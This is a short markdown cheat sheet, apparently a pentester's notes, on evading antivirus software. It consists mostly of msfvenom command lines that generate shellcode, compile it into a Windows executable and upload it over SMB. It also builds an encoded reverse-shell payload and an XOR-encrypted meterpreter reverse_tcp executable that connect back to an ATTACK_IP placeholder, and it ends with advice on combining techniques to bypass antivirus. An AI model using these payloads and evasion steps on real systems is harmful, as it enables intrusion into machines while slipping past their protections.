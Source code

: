 # Antivirus Evasion

### Tools: Command and Control Frameworks, msfvenom, powercat, https://github.com/optiv/Freeze

# GENERATE SHELLCODE USING PUBLIC TOOLS

### example:

#### 1) 

    msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c

#### 2) Write a C program

#### 3) 

    i686-w64-mingw32-gcc calc.c -o calc-MSF.exe

#### 4) 

    smbclient -U USER '//IP/Tools'

#### 

    put calc-MSF.exe

### Another example

#### 1) 

    msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin

#### 2) 

    xxd -i /tmp/example.bin

## ENCODING WITH MSFVENOM

#### 1) 

    msfvenom --list encoders | grep excellent

#### 2) 

    msfvenom -a x86 --platform windows LHOST=ATTACK_IP LPORT=PORT -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i NUM -f EXTENSION

## ENCRYPTING WITH MSFVENOM

#### 1) 

    msfvenom --list encrypt

#### 2) 

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=PORT -f exe --encrypt xor --encrypt-key "KEY" -o xoredrevshell.exe

# TIP: THESE METHODS WON'T WORK OUT OF THE BOX! DO SOME WOMBO COMBOS WITH OTHER TECHNIQUES OR REVERSE ENGINEER THE PAYLOAD FOR A SUCCESSFUL ANTIVIRUS BYPASS!!!

## Summary:

### 1) Encoding

### 2) Encryption

### 3) Packers

### 4) Binders
